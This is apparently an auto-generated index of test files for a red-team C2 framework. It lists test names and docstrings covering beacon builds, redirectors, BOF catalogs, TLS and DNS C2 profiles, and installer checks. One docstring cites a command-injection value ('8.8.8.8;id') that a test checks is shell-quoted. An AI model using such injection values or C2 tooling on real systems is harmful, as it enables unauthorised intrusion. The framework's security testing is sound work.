- `__init__` (line 45) `def __init__(self, suggestion)`
- `suggest` (line 48) `def suggest(self, context)`
- `suggest` (line 55) `def suggest(self, context)`
- `__init__` (line 204) `def __init__(self, results, available)`
- `is_available` (line 208) `def is_available(self)`
- `suggest_next` (line 211) `def suggest_next(self, recent_commands, limit)`
- `__init__` (line 296) `def __init__(self)`
- `print` (line 299) `def print(self, value)`
- `__init__` (line 342) `def __init__(self, suggestions)`
- `suggest` (line 346) `def suggest(self, context)`

#### `test_banner_config.py`
**Path:** `tests/test_banner_config.py`
**File Doc:** *Tests for cli/banner_config.py — registry, settings, renderer, wizard.  The curses-driven configurator is exercised through a deterministic fake :class:`BannerConfigurator` substitute so we do not need a TTY. Renderer behaviour is verified by stripping ANSI from the output and asserting the three-line Neon Box structure plus the on/off behaviour of each segment.*

**Classes:**
- `_FakeResp` (line 281) `class _FakeResp`

**Functions:**
- `registry` (line 37) `def registry()`
- `color_registry` (line 42) `def color_registry()`
- `glyph_registry` (line 47) `def glyph_registry()`
- `neutral_palette` (line 52) `def neutral_palette()`
- `test_registry_lists_every_canonical_segment` (line 68) `def test_registry_lists_every_canonical_segment(registry)`
- `test_registry_group_partition` (line 88) `def test_registry_group_partition(registry)`
- `test_registry_lookup_returns_none_for_unknown` (line 96) `def test_registry_lookup_returns_none_for_unknown(registry)`
- `test_settings_defaults_match_registry_defaults` (line 103) `def test_settings_defaults_match_registry_defaults(registry)`
- `test_settings_round_trip_through_payload_block` (line 113) `def test_settings_round_trip_through_payload_block(registry)`
- `test_settings_from_payload_falls_back_to_defaults_when_missing` (line 120) `def test_settings_from_payload_falls_back_to_defaults_when_missing(registry)`
- `test_settings_from_payload_ignores_unknown_ids` (line 125) `def test_settings_from_payload_ignores_unknown_ids(registry)`
- `test_settings_toggle_adds_then_removes` (line 131) `def test_settings_toggle_adds_then_removes()`
- `test_settings_enable_all_then_disable_all` (line 139) `def test_settings_enable_all_then_disable_all(registry)`
- `_make_ctx` (line 150) `def _make_ctx(palette)`
- `test_renderer_emits_three_lines_with_box_corners` (line 176) `def test_renderer_emits_three_lines_with_box_corners(registry, neutral_palette)`
- `test_renderer_omits_disabled_segments` (line 187) `def test_renderer_omits_disabled_segments(registry, neutral_palette)`
- `test_renderer_includes_kernel_and_version_when_enabled` (line 198) `def test_renderer_includes_kernel_and_version_when_enabled(registry, neutral_palette)`
- `test_renderer_drops_empty_value_segments` (line 206) `def test_renderer_drops_empty_value_segments(registry, neutral_palette)`
- `test_renderer_marks_dirty_git_with_dirty_glyph` (line 214) `def test_renderer_marks_dirty_git_with_dirty_glyph(registry, neutral_palette)`
- `test_render_prompt_uses_payload_banner_block` (line 228) `def test_render_prompt_uses_payload_banner_block()`
- `test_render_prompt_with_no_payload_uses_defaults` (line 239) `def test_render_prompt_with_no_payload_uses_defaults()`
- `test_banner_summary_lists_enabled_ids_sorted` (line 248) `def test_banner_summary_lists_enabled_ids_sorted()`
- `test_banner_summary_handles_empty` (line 254) `def test_banner_summary_handles_empty()`
- `test_context_resolver_uses_payload_rhost_and_lhost` (line 261) `def test_context_resolver_uses_payload_rhost_and_lhost(neutral_palette)`
- `test_context_resolver_public_ip_caches_within_ttl` (line 275) `def test_context_resolver_public_ip_caches_within_ttl(neutral_palette)`
- `test_configurator_returns_none_in_non_tty_environment` (line 303) `def test_configurator_returns_none_in_non_tty_environment(monkeypatch, registry, neutral_palette, color_registry, glyph_registry)`
- `test_color_registry_exposes_named_palette` (line 320) `def test_color_registry_exposes_named_palette(color_registry)`
- `test_color_registry_cycle_wraps_around` (line 327) `def test_color_registry_cycle_wraps_around(color_registry)`
- `test_color_registry_resolve_unknown_falls_back` (line 335) `def test_color_registry_resolve_unknown_falls_back(color_registry)`
- `test_glyph_registry_exposes_canonical_slots` (line 344) `def test_glyph_registry_exposes_canonical_slots(glyph_registry)`
- `test_glyph_registry_cycle_returns_known_choice` (line 350) `def test_glyph_registry_cycle_returns_known_choice(glyph_registry)`
- `test_glyph_registry_cycle_preserves_unknown_value` (line 357) `def test_glyph_registry_cycle_preserves_unknown_value(glyph_registry)`
- `test_settings_round_trip_carries_colors_and_glyphs` (line 364) `def test_settings_round_trip_carries_colors_and_glyphs(registry, color_registry, glyph_registry)`
- `test_settings_from_payload_ignores_unknown_color_names` (line 379) `def test_settings_from_payload_ignores_unknown_color_names(registry, color_registry, glyph_registry)`
- `test_settings_from_payload_ignores_unknown_glyph_chars` (line 385) `def test_settings_from_payload_ignores_unknown_glyph_chars(registry, color_registry, glyph_registry)`
- `test_settings_cycle_color_uses_registry_order` (line 391) `def test_settings_cycle_color_uses_registry_order(registry, color_registry)`
- `test_settings_cycle_glyph_uses_registry_order` (line 398) `def test_settings_cycle_glyph_uses_registry_order(registry, color_registry, glyph_registry)`
- `test_settings_reset_color_and_glyph_for_specific_id` (line 405) `def test_settings_reset_color_and_glyph_for_specific_id(registry, color_registry, glyph_registry)`
- `test_renderer_emits_chosen_color_for_each_segment` (line 418) `def test_renderer_emits_chosen_color_for_each_segment(registry, color_registry, glyph_registry, neutral_palette)`
- `test_renderer_uses_glyph_overrides_in_box` (line 438) `def test_renderer_uses_glyph_overrides_in_box(registry, color_registry, glyph_registry, neutral_palette)`
- `test_render_prompt_honours_payload_colors_and_glyphs` (line 458) `def test_render_prompt_honours_payload_colors_and_glyphs()`

**Methods:**
- `__enter__` (line 282) `def __enter__(self)`
- `__exit__` (line 285) `def __exit__(self)`
- `read` (line 288) `def read(self)`

#### `test_bdd_infra_range_report.py`
**Path:** `tests/test_bdd_infra_range_report.py`
**File Doc:** *BDD scenarios for disposable infra, range, and executive reporting.  Each test states its Given/When/Then contract in the docstring so the ``scripts/test_bdd.sh`` gate discovers this module.*

**Classes:**
- `Completed` (line 28) `class Completed`

**Functions:**
- `test_bdd_redirector_spawn_registers_urls` (line 15) `def test_bdd_redirector_spawn_registers_urls()` - *BDD redirector spawn workflow.

Given a C2 port and two tunnel URLs in compose logs,
When the operator spawns two redirectors,
Then both URLs persist in redirector state for beacon builds.*
- `test_bdd_beacon_build_injects_fallback_urls` (line 51) `def test_bdd_beacon_build_injects_fallback_urls()` - *BDD beacon fallback injection.

Given redirector URLs in shell params,
When the C2 builder renders the Go template context,
Then the fallback slice reaches the beacon source.*
- `test_bdd_range_compose_topology` (line 65) `def test_bdd_range_compose_topology()` - *BDD cyber range topology.

Given the ad-mini range profile,
When the operator inspects its compose file,
Then DC, workstation, and traffic generator share one isolated
network with no fixed subnet that could collide with the host.*
- `test_bdd_report_executive_summary_without_ai` (line 83) `def test_bdd_report_executive_summary_without_ai()` - *BDD executive reporting without AI.

Given engagement findings and loot counters,
When the operator generates the report without AI,
Then the template summary states scope impact and remediation windows.*

#### `test_beacon_config_builder.py`
**Path:** `tests/test_beacon_config_builder.py`
**File Doc:** *Tests for modules/beacon_config_builder.py — BeaconConfig, BeaconConfigBuilder, and generate_bof_execution_command.  Covers: - BeaconConfig default construction and serialization - to_gen_beacon_args produces correct CLI flags - to_go_implant_vars produces template dict for Go implant - to_config_json produces valid config.json structure - BeaconConfigBuilder.build from payload dict - generate_bof_execution_command produces correct bof: URL*

**Classes:**
- `TestBeaconConfig` (line 22) `class TestBeaconConfig`
- `TestBeaconConfigBuilder` (line 141) `class TestBeaconConfigBuilder`
- `TestGenerateBofExecutionCommand` (line 205) `class TestGenerateBofExecutionCommand`

**Methods:**
- `test_default_construction` (line 23) `def test_default_construction(self)`
- `test_to_gen_beacon_args` (line 36) `def test_to_gen_beacon_args(self)`
- `test_to_go_implant_vars` (line 59) `def test_to_go_implant_vars(self)`
- `test_to_config_json` (line 85) `def test_to_config_json(self)`
- `test_to_dict_serialization` (line 113) `def test_to_dict_serialization(self)`
- `test_build_minimal` (line 142) `def test_build_minimal(self)`
- `test_build_with_malleable_route` (line 157) `def test_build_with_malleable_route(self)`
- `test_build_injects_tls_from_payload` (line 170) `def test_build_injects_tls_from_payload(self)`
- `test_build_injects_dns_from_payload` (line 183) `def test_build_injects_dns_from_payload(self)`
- `test_build_falls_back_on_missing_engines` (line 197) `def test_build_falls_back_on_missing_engines(self)`
- `test_basic_bof_command` (line 206) `def test_basic_bof_command(self)`
- `test_bof_with_args` (line 214) `def test_bof_with_args(self)`
- `test_custom_bofs_dir` (line 224) `def test_custom_bofs_dir(self)`

#### `test_beacon_history.py`
**Path:** `tests/test_beacon_history.py`
**File Doc:** *BDD-style tests for persistent beacon command/result history storage.  Scenario: captured implant results are appended to an ordered JSONL file that is replayable across restarts, safe against path traversal, and isolated per beacon id.*

**Classes:**
- `TestSanitization` (line 23) `class TestSanitization`
- `TestAppendRead` (line 38) `class TestAppendRead`

**Functions:**
- `_config` (line 19) `def _config(tmp_path)`

**Methods:**
- `test_sanitize_client_id_strips_unsafe_chars` (line 24) `def test_sanitize_client_id_strips_unsafe_chars(self)` - *Given: a hostile beacon id, Then: only safe chars survive.*
- `test_records_path_is_bounded_inside_sessions` (line 29) `def test_records_path_is_bounded_inside_sessions(self, tmp_path)` - *Given a hostile id, Then its history path never escapes sessions.*
- `test_append_then_read_round_trips` (line 39) `def test_append_then_read_round_trips(self, tmp_path)`
- `test_multiple_beacons_do_not_interleave` (line 50) `def test_multiple_beacons_do_not_interleave(self, tmp_path)`
- `test_skips_malformed_lines` (line 59) `def test_skips_malformed_lines(self, tmp_path)`
- `test_missing_history_reads_empty` (line 72) `def test_missing_history_reads_empty(self, tmp_path)`
- `test_record_without_client_id_is_rejected` (line 75) `def test_record_without_client_id_is_rejected(self, tmp_path)`

#### `test_blacksandbeacon_addon.py`
**Path:** `tests/test_blacksandbeacon_addon.py`
**File Doc:** *tests/test_blacksandbeacon_addon.py  Validation suite for the blacksandbeacon and blacksandbeacon_bof lazyaddons.  Checks structural integrity, required fields, URL correctness, parameter contracts, path safety, and command template substitution without touching the network or filesystem beyond the repo root.*

**Classes:**
- `TestBeaconYamlExists` (line 41) `class TestBeaconYamlExists`
- `TestBeaconRequiredFields` (line 55) `class TestBeaconRequiredFields` - *Every lazyaddon must have name, description, enabled, tool, category.*
- `TestBeaconToolSection` (line 67) `class TestBeaconToolSection` - *The tool sub-section must define repo, install path, and both commands.*
- `TestBeaconPathSafety` (line 97) `class TestBeaconPathSafety` - *Install paths must not escape the repo root via traversal sequences.*
- `TestBeaconCategory` (line 111) `class TestBeaconCategory`
- `TestBeaconEnabled` (line 119) `class TestBeaconEnabled`
- `TestBeaconParams` (line 127) `class TestBeaconParams` - *Both addons must declare lhost; the main beacon also requires lport and c2_port.*
- `TestBeaconCommandTemplates` (line 157) `class TestBeaconCommandTemplates` - *Commands must reference {lhost} and the C2 download port for substitution.*
- `TestBeaconDescriptionQuality` (line 192) `class TestBeaconDescriptionQuality` - *Descriptions must mention key differentiators.*
- `TestBeaconNoHardcodedSecrets` (line 217) `class TestBeaconNoHardcodedSecrets` - *Neither YAML must contain IP addresses, ports, or credential literals.*

**Functions:**
- `_load` (line 26) `def _load(path)`
- `beacon` (line 32) `def beacon()`
- `bof` (line 37) `def bof()`

**Methods:**
- `test_beacon_yaml_present` (line 42) `def test_beacon_yaml_present(self)`
- `test_bof_yaml_present` (line 45) `def test_bof_yaml_present(self)`
- `test_beacon_yaml_parses` (line 48) `def test_beacon_yaml_parses(self, beacon)`
- `test_bof_yaml_parses` (line 51) `def test_bof_yaml_parses(self, bof)`
- `test_beacon_has_field` (line 59) `def test_beacon_has_field(self, beacon, field)`
- `test_bof_has_field` (line 63) `def test_bof_has_field(self, bof, field)`
- `test_beacon_tool_has_key` (line 71) `def test_beacon_tool_has_key(self, beacon, key)`
- `test_bof_tool_has_key` (line 75) `def test_bof_tool_has_key(self, bof, key)`
- `test_beacon_repo_url` (line 78) `def test_beacon_repo_url(self, beacon)`
- `test_bof_repo_url` (line 81) `def test_bof_repo_url(self, bof)`
- `test_beacon_install_path` (line 84) `def test_beacon_install_path(self, beacon)`
- `test_bof_install_path` (line 87) `def test_bof_install_path(self, bof)`
- `test_beacon_install_command_is_make` (line 90) `def test_beacon_install_command_is_make(self, beacon)`
- `test_bof_install_command_is_make` (line 93) `def test_bof_install_command_is_make(self, bof)`
- `test_beacon_install_path_no_traversal` (line 100) `def test_beacon_install_path_no_traversal(self, beacon)`
- `test_bof_install_path_no_traversal` (line 105) `def test_bof_install_path_no_traversal(self, bof)`
- `test_beacon_category` (line 112) `def test_beacon_category(self, beacon)`
- `test_bof_category` (line 115) `def test_bof_category(self, bof)`
- `test_beacon_enabled` (line 120) `def test_beacon_enabled(self, beacon)`
- `test_bof_enabled` (line 123) `def test_bof_enabled(self, bof)`
- `_param_names` (line 130) `def _param_names(self, addon)`
- `test_beacon_has_lhost_param` (line 133) `def test_beacon_has_lhost_param(self, beacon)`
- `test_beacon_has_lport_param` (line 136) `def test_beacon_has_lport_param(self, beacon)`
- `test_beacon_has_c2_port_param` (line 139) `def test_beacon_has_c2_port_param(self, beacon)`
- `test_bof_has_lhost_param` (line 142) `def test_bof_has_lhost_param(self, bof)`
- `test_bof_has_lport_param` (line 145) `def test_bof_has_lport_param(self, bof)`
- `test_beacon_lhost_required` (line 148) `def test_beacon_lhost_required(self, beacon)`
- `test_bof_lhost_required` (line 152) `def test_bof_lhost_required(self, bof)`
- `test_beacon_lazycommand_has_lhost` (line 160) `def test_beacon_lazycommand_has_lhost(self, beacon)`
- `test_beacon_lazycommand_has_c2_port` (line 164) `def test_beacon_lazycommand_has_c2_port(self, beacon)`
- `test_bof_lazycommand_has_lhost` (line 168) `def test_bof_lazycommand_has_lhost(self, bof)`
- `test_bof_lazycommand_has_lport` (line 172) `def test_bof_lazycommand_has_lport(self, bof)`
- `test_beacon_execute_stages_to_sessions` (line 176) `def test_beacon_execute_stages_to_sessions(self, beacon)`
- `test_bof_execute_stages_to_sessions` (line 180) `def test_bof_execute_stages_to_sessions(self, bof)`
- `test_beacon_execute_resets_before_pull` (line 183) `def test_beacon_execute_resets_before_pull(self, beacon)`
- `test_bof_execute_resets_before_pull` (line 187) `def test_bof_execute_resets_before_pull(self, bof)`
- `test_beacon_description_mentions_bof` (line 195) `def test_beacon_description_mentions_bof(self, beacon)`
- `test_beacon_description_mentions_linux` (line 199) `def test_beacon_description_mentions_linux(self, beacon)`
- `test_bof_description_mentions_linux_bof` (line 202) `def test_bof_description_mentions_linux_bof(self, bof)`
- `test_bof_description_mentions_elf` (line 206) `def test_bof_description_mentions_elf(self, bof)`
- `test_beacon_name_is_correct` (line 210) `def test_beacon_name_is_correct(self, beacon)`
- `test_bof_name_is_correct` (line 213) `def test_bof_name_is_correct(self, bof)`
- `_yaml_text` (line 220) `def _yaml_text(self, path)`
- `test_beacon_no_hardcoded_ip` (line 223) `def test_beacon_no_hardcoded_ip(self)`
- `test_bof_no_hardcoded_ip` (line 230) `def test_bof_no_hardcoded_ip(self)`
- `test_beacon_no_hardcoded_port_numbers` (line 237) `def test_beacon_no_hardcoded_port_numbers(self)`
- `test_bof_no_hardcoded_port_numbers` (line 241) `def test_bof_no_hardcoded_port_numbers(self)`

#### `test_bof_registry.py`
**Path:** `tests/test_bof_registry.py`
**File Doc:** *Tests for modules/bof_registry.py — BofEntry, BofCatalog, BofRegistry, BofMarketplace, BofValidator, BofPlatform, BofCategory.  Covers: - BofEntry construction, immutability, and serialization - BofCatalog registration, search, list operations - BofCatalog persistence (save/load roundtrip) - BofRegistry install, uninstall, manifest management - BofMarketplace search with install status enrichment - BofMarketplace install/uninstall/info/list operations - BofMarketplace bulk_install and dependency checking - BofValidator hash verification and argument validation - BofPlatform and BofCategory enum values - Edge cases: missing BOFs, already installed, empty queries*

**Classes:**
- `TestBofEntry` (line 47) `class TestBofEntry`
- `TestBofCatalog` (line 101) `class TestBofCatalog`
- `TestBofRegistry` (line 174) `class TestBofRegistry`
- `TestBofValidator` (line 221) `class TestBofValidator`
- `TestBofMarketplace` (line 291) `class TestBofMarketplace`
- `TestBofEnums` (line 359) `class TestBofEnums`

**Functions:**
- `catalog` (line 37) `def catalog()`
- `tmp_sessions` (line 42) `def tmp_sessions()`

**Methods:**
- `test_construction_and_properties` (line 48) `def test_construction_and_properties(self)`
- `test_immutability` (line 65) `def test_immutability(self)`
- `test_to_dict_roundtrip` (line 70) `def test_to_dict_roundtrip(self)`
- `test_from_dict_minimal` (line 91) `def test_from_dict_minimal(self)`
- `test_register_and_get` (line 102) `def test_register_and_get(self, catalog)`
- `test_get_missing_raises_keyerror` (line 107) `def test_get_missing_raises_keyerror(self, catalog)`
- `test_search_exact_match` (line 111) `def test_search_exact_match(self, catalog)`
- `test_search_by_category` (line 116) `def test_search_by_category(self, catalog)`
- `test_search_by_technique` (line 121) `def test_search_by_technique(self, catalog)`
- `test_search_empty_query_returns_all` (line 127) `def test_search_empty_query_returns_all(self, catalog)`
- `test_list_all_sorted` (line 131) `def test_list_all_sorted(self, catalog)`
- `test_list_by_platform` (line 136) `def test_list_by_platform(self, catalog)`
- `test_list_by_category` (line 141) `def test_list_by_category(self, catalog)`
- `test_save_load_roundtrip` (line 147) `def test_save_load_roundtrip(self, catalog, tmp_sessions)`
- `test_load_missing_file_returns_empty` (line 153) `def test_load_missing_file_returns_empty(self, tmp_sessions)`
- `test_empty_catalog` (line 158) `def test_empty_catalog(self)`
- `test_register_overwrites` (line 165) `def test_register_overwrites(self)`
- `test_install_and_check` (line 175) `def test_install_and_check(self, tmp_sessions)`
- `test_uninstall` (line 182) `def test_uninstall(self, tmp_sessions)`
- `test_uninstall_nonexistent` (line 189) `def test_uninstall_nonexistent(self, tmp_sessions)`
- `test_list_installed` (line 193) `def test_list_installed(self, tmp_sessions)`
- `test_get_install_info` (line 201) `def test_get_install_info(self, tmp_sessions)`
- `test_get_install_info_nonexistent` (line 209) `def test_get_install_info_nonexistent(self, tmp_sessions)`
- `test_manifest_persistence` (line 213) `def test_manifest_persistence(self, tmp_sessions)`
- `test_verify_with_empty_hash_skips` (line 222) `def test_verify_with_empty_hash_skips(self, tmp_sessions)`
- `test_compute_sha256_deterministic` (line 230) `def test_compute_sha256_deterministic(self, tmp_sessions)`
- `test_verify_mismatched_hash` (line 238) `def test_verify_mismatched_hash(self, tmp_sessions)`
- `test_validate_args_missing_required` (line 253) `def test_validate_args_missing_required(self)`
- `test_validate_args_all_present` (line 266) `def test_validate_args_all_present(self)`
- `test_validate_args_no_required` (line 278) `def test_validate_args_no_required(self)`
- `test_search_enriches_with_install_status` (line 292) `def test_search_enriches_with_install_status(self, tmp_sessions)`
- `test_info_returns_catalog_and_install_state` (line 299) `def test_info_returns_catalog_and_install_state(self, tmp_sessions)`
- `test_info_missing_bof` (line 306) `def test_info_missing_bof(self)`
- `test_install_and_uninstall` (line 311) `def test_install_and_uninstall(self, tmp_sessions)`
- `test_install_already_installed` (line 321) `def test_install_already_installed(self, tmp_sessions)`
- `test_install_missing_bof` (line 327) `def test_install_missing_bof(self)`
- `test_uninstall_missing_bof` (line 332) `def test_uninstall_missing_bof(self, tmp_sessions)`
- `test_list_installed_empty_initially` (line 337) `def test_list_installed_empty_initially(self, tmp_sessions)`
- `test_list_missing_dependencies` (line 342) `def test_list_missing_dependencies(self, tmp_sessions)`
- `test_list_missing_dependencies_unknown_bof` (line 347) `def test_list_missing_dependencies_unknown_bof(self)`
- `test_bulk_install` (line 352) `def test_bulk_install(self, tmp_sessions)`
- `test_platform_values` (line 360) `def test_platform_values(self)`
- `test_category_values` (line 364) `def test_category_values(self)`

#### `test_bootstrap_installer.py`
**Path:** `tests/test_bootstrap_installer.py`
**File Doc:** *Integration tests for the installer scripts (no network, no apt).  Exercises ``bootstrap.sh`` and ``install.sh`` end to end with local ``file://`` git fixtures and stub payloads, so the one-liner flows are covered in CI without touching the real ``~/LazyOwn`` or package managers.*

**Functions:**
- `_run_bootstrap` (line 29) `def _run_bootstrap(args, env, cwd)`
- `_git` (line 44) `def _git(args, cwd)`
- `test_bootstrap_help_lists_options` (line 55) `def test_bootstrap_help_lists_options()`
- `test_bootstrap_rejects_unknown_flag` (line 63) `def test_bootstrap_rejects_unknown_flag()`
- `test_bootstrap_rejects_bad_modes` (line 75) `def test_bootstrap_rejects_bad_modes()`
- `test_install_pipe_guard` (line 88) `def test_install_pipe_guard(tmp_path)` - *install.sh outside a checkout must refuse and point at bootstrap.*
- `_make_stub_repo` (line 105) `def _make_stub_repo(path)`
- `test_existing_checkout_abort_changes_nothing` (line 118) `def test_existing_checkout_abort_changes_nothing(tmp_path)`
- `test_debug_flag_traces_execution` (line 138) `def test_debug_flag_traces_execution(tmp_path)`
- `test_existing_checkout_update_reinstalls` (line 153) `def test_existing_checkout_update_reinstalls(tmp_path)`
- `test_existing_checkout_clean_backs_up_payload` (line 170) `def test_existing_checkout_clean_backs_up_payload(tmp_path)`
- `test_non_checkout_path_fails_without_tty` (line 195) `def test_non_checkout_path_fails_without_tty(tmp_path)`
- `test_install_uses_supported_pip_flags` (line 208) `def test_install_uses_supported_pip_flags()` - *install.sh must not pass pip options removed from modern pip.

``--resolver`` was dropped by pip, which turned the pinned lock
install into a guaranteed failure (silent fallback to unpinned
packages). Caught by a real install run.*
- `test_scripts_are_executable_and_clean` (line 220) `def test_scripts_are_executable_and_clean()`

#### `test_boyscout_contracts.py`
**Path:** `tests/test_boyscout_contracts.py`
**File Doc:** *Boy-scout contracts for critical shared surfaces.  SPEC-01 lazyown.py carries no unused imports. Dead imports accumulate because commands migrate to cli/commands while the import block stays. SPEC-02 the MCP playbook executor shell-quotes the substituted target so a value such as 8.8.8.8;id cannot break out of the step command. SPEC-03 utils.replace_placeholders matches replace_command_placeholders on single-brace templates and leaves brace-containing values literal instead of re-substituting them. SPEC-04 DEPLOY.sh carries no dangling TODO markers.*

**Classes:**
- `Tool` (line 66) `class Tool` - *Minimal Tool stand-in.*
- `TextContent` (line 73) `class TextContent` - *Minimal TextContent stand-in.*
- `Server` (line 83) `class Server` - *Minimal Server stand-in.*

**Functions:**
- `_bound_import_names` (line 27) `def _bound_import_names(tree)` - *Collect every top-level name bound by an import statement.*
- `test_lazyown_has_no_unused_imports` (line 42) `def test_lazyown_has_no_unused_imports()` - *SPEC-01: every name bound by an import in lazyown.py is referenced.*
- `_load_mcp_module` (line 52) `def _load_mcp_module()` - *Import skills.lazyown_mcp with SDK stubs when the pinned SDK is stale.*
- `test_playbook_target_is_shell_quoted` (line 110) `def test_playbook_target_is_shell_quoted()` - *SPEC-02: substituted target cannot break out of the step command.*
- `test_replace_placeholders_matches_single_pass_engine` (line 119) `def test_replace_placeholders_matches_single_pass_engine()` - *SPEC-03: legacy helper agrees with the canonical engine on sane input.*
- `test_replace_placeholders_keeps_brace_values_literal` (line 133) `def test_replace_placeholders_keeps_brace_values_literal()` - *SPEC-03: a value that looks like a placeholder is not re-substituted.*
- `test_deploy_has_no_todo_markers` (line 141) `def test_deploy_has_no_todo_markers()` - *SPEC-04: release script carries no dangling work markers.*

**Methods:**
- `__init__` (line 69) `def __init__(self)` - *Store every keyword as an attribute.*
- `__init__` (line 76) `def __init__(self)` - *Store every keyword as an attribute.*
- `__init__` (line 86) `def __init__(self)` - *Accept and ignore constructor arguments.*
- `list_tools` (line 89) `def list_tools(self)` - *Return an identity decorator.*
- `call_tool` (line 93) `def call_tool(self)` - *Return an identity decorator.*

#### `test_bridge_catalog_filtered.py`
**Path:** `tests/test_bridge_catalog_filtered.py`
**File Doc:** *tests/test_bridge_catalog_filtered.py  Tests for ``BridgeDispatcher.catalog_summary_filtered`` and the ``phase``/``os_hint`` parameters now accepted by ``_t_bridge_catalog``.  Goal: prove that the filtered summary returns the same data shape as ``catalog_summary`` while excluding entries whose phase or target OS does not match. The agent prompt path (``_t_bridge_catalog``) is also exercised so the LLM-facing string honours the filter when arguments are supplied and stays backward-compatible when they are omitted.*

**Classes:**
- `TestCatalogSummaryFiltered` (line 32) `class TestCatalogSummaryFiltered`
- `TestBridgeCatalogToolFunction` (line 111) `class TestBridgeCatalogToolFunction`

**Functions:**
- `dispatcher` (line 26) `def dispatcher()`

**Methods:**
- `test_no_args_matches_unfiltered_summary` (line 33) `def test_no_args_matches_unfiltered_summary(self, dispatcher)`
- `test_phase_arg_restricts_to_one_phase` (line 38) `def test_phase_arg_restricts_to_one_phase(self, dispatcher)`
- `test_phase_arg_accepts_world_model_alias` (line 43) `def test_phase_arg_accepts_world_model_alias(self, dispatcher)`
- `_entries_for` (line 48) `def _entries_for(self, dispatcher, phase, command_name)`
- `test_os_hint_linux_excludes_windows_only_entries` (line 51) `def test_os_hint_linux_excludes_windows_only_entries(self, dispatcher)`
- `test_os_hint_windows_excludes_linux_only_entries` (line 61) `def test_os_hint_windows_excludes_linux_only_entries(self, dispatcher)`
- `test_os_filter_shrinks_or_preserves_each_phase` (line 71) `def test_os_filter_shrinks_or_preserves_each_phase(self, dispatcher)`
- `test_phase_plus_os_combines_both_filters` (line 81) `def test_phase_plus_os_combines_both_filters(self, dispatcher)`
- `test_empty_phase_keeps_all_phases` (line 89) `def test_empty_phase_keeps_all_phases(self, dispatcher)`
- `test_phase_drops_smaller_than_unfiltered_total` (line 94) `def test_phase_drops_smaller_than_unfiltered_total(self, dispatcher)`
- `test_os_hint_any_is_passthrough` (line 100) `def test_os_hint_any_is_passthrough(self, dispatcher)`
- `test_os_hint_uppercase_normalized` (line 105) `def test_os_hint_uppercase_normalized(self, dispatcher)`
- `test_no_args_returns_full_catalog_header` (line 112) `def test_no_args_returns_full_catalog_header(self)`
- `test_phase_arg_appears_in_header` (line 120) `def test_phase_arg_appears_in_header(self)`
- `test_os_hint_only_appears_in_header` (line 127) `def test_os_hint_only_appears_in_header(self)`
- `test_unknown_phase_returns_friendly_no_match` (line 134) `def test_unknown_phase_returns_friendly_no_match(self)`
- `test_registry_exposes_optional_phase_and_os` (line 140) `def test_registry_exposes_optional_phase_and_os(self)`

#### `test_c2_profile_engine.py`
**Path:** `tests/test_c2_profile_engine.py`
**File Doc:** *Tests for modules/c2_profile_engine.py — TlsProfile, DnsProfile, SmbProfile, WebSocketProfile, ProfileRotator, ProfileValidator, ProfileEngine.  Covers: - Dataclass construction and serialization round-trips - TLS JA3 hash computation and cipher suite resolution - DNS query subdomain building with various encodings - SMB profile validation edge cases - WebSocket protocol and path validation - ProfileRotator cooldown and skip logic - ProfileValidator transport-level checks - ProfileEngine composition and rotation - ProfileEngine.from_dict and from_payload factory methods*

**Classes:**
- `TestTlsProfile` (line 34) `class TestTlsProfile`
- `TestDnsProfile` (line 99) `class TestDnsProfile`
- `TestSmbProfile` (line 154) `class TestSmbProfile`
- `TestWebSocketProfile` (line 183) `class TestWebSocketProfile`
- `TestProfileRotator` (line 214) `class TestProfileRotator`
- `TestProfileValidator` (line 291) `class TestProfileValidator`
- `TestProfileEngine` (line 397) `class TestProfileEngine`

**Methods:**
- `test_default_construction` (line 35) `def test_default_construction(self)`
- `test_get_cipher_suites_returns_library_defaults` (line 44) `def test_get_cipher_suites_returns_library_defaults(self)`
- `test_get_cipher_suites_returns_custom_when_set` (line 50) `def test_get_cipher_suites_returns_custom_when_set(self)`
- `test_get_cipher_suites_unknown_library_falls_back_to_generic` (line 55) `def test_get_cipher_suites_unknown_library_falls_back_to_generic(self)`
- `test_get_ja3_hash_produces_stable_output` (line 61) `def test_get_ja3_hash_produces_stable_output(self)`
- `test_get_ja3_hash_with_grease_produces_variable_output` (line 72) `def test_get_ja3_hash_with_grease_produces_variable_output(self)`
- `test_serialization_roundtrip` (line 77) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 90) `def test_from_dict_empty(self)`
- `test_disabled_profile` (line 94) `def test_disabled_profile(self)`
- `test_default_construction` (line 100) `def test_default_construction(self)`
- `test_build_query_subdomain_base64` (line 107) `def test_build_query_subdomain_base64(self)`
- `test_build_query_subdomain_base32` (line 113) `def test_build_query_subdomain_base32(self)`
- `test_build_query_subdomain_hex` (line 119) `def test_build_query_subdomain_hex(self)`
- `test_build_query_subdomain_truncates_to_max_length` (line 124) `def test_build_query_subdomain_truncates_to_max_length(self)`
- `test_build_query_subdomain_ttl_cache_bypass_disabled` (line 130) `def test_build_query_subdomain_ttl_cache_bypass_disabled(self)`
- `test_serialization_roundtrip` (line 135) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 148) `def test_from_dict_empty(self)`
- `test_default_construction` (line 155) `def test_default_construction(self)`
- `test_serialization_roundtrip` (line 161) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 178) `def test_from_dict_empty(self)`
- `test_default_construction` (line 184) `def test_default_construction(self)`
- `test_serialization_roundtrip` (line 191) `def test_serialization_roundtrip(self)`
- `test_from_dict_empty` (line 208) `def test_from_dict_empty(self)`
- `test_requires_at_least_one_slot` (line 215) `def test_requires_at_least_one_slot(self)`
- `test_single_slot_always_active` (line 219) `def test_single_slot_always_active(self)`
- `test_rotation_cycles_through_slots` (line 226) `def test_rotation_cycles_through_slots(self)`
- `test_rotation_skips_cooldown_slots` (line 238) `def test_rotation_skips_cooldown_slots(self)`
- `test_rotation_resets_all_cooldowns_when_all_busy` (line 252) `def test_rotation_resets_all_cooldowns_when_all_busy(self)`
- `test_list_slots` (line 263) `def test_list_slots(self)`
- `test_is_available_fresh_slot` (line 274) `def test_is_available_fresh_slot(self)`
- `test_is_available_after_touch` (line 278) `def test_is_available_after_touch(self)`
- `test_current_slot_identity` (line 283) `def test_current_slot_identity(self)`
- `test_validate_tls_valid` (line 292) `def test_validate_tls_valid(self)`
- `test_validate_tls_disabled_skips` (line 297) `def test_validate_tls_disabled_skips(self)`
- `test_validate_tls_invalid_version` (line 302) `def test_validate_tls_invalid_version(self)`
- `test_validate_tls_missing_key_with_cert` (line 308) `def test_validate_tls_missing_key_with_cert(self)`
